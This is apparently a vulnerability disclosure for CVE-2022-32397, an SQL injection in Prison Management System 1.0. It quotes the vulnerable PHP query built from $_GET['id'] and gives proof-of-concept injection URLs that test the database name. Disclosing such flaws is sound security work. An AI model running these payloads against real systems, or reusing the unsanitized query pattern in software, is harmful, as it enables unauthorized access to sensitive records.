


# CVE-2022-32397
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/visits/view_visit.php:4`
```php
$qry = $conn->query("SELECT v.*, i.code, concat(i.lastname,', ', i.firstname, coalesce(concat(' ', i.middlename), '')) as `inmate` from `visit_list` v inner join inmate_list i on v.inmate_id = i.id where v.id = '{$_GET['id']}' ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/visits/view_visit.php?id=1'/**/-/**/if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/visits/view_visit.php?id=1'/**/-/**/if(database()='pms_db',0,1)%23`

- False : 
`http://localhost/pms/admin/visits/view_visit.php?id=1'/**/-/**/if(database()='wrong',0,1)%23`
